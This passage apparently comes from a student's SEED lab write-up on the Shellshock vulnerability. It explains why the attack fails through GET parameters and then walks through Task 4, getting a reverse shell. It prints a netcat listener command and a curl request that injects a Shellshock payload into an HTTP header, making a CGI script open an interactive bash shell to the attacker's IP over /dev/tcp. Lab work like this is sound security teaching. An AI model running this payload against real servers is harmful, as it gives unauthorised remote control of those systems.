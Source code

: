 ![](image-14.png)

But, since the Shellshock Attack requires the `() {`, that is, there should be **SPACE** character, but in HTTP GET request, we cannot send space characters without urlencoding it, hence, Shellshock attack cannot work using HTTP GET query parameters.

### Task 4: Getting a Reverse Shell via Shellshock Attack

1) used `ifconfig` command to know the IP address of the attacker machine.

2) started the netcat process to listen to tcp communications on PORT 9090

```sh
nc -nv -l 9090
```

3) ran the command in a new terminal.

```sh
curl -H "VARTEST: () { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

4) The first terminal got access to the BASH shell, where commands could be typed and output was visible, as shown in below screenshot.
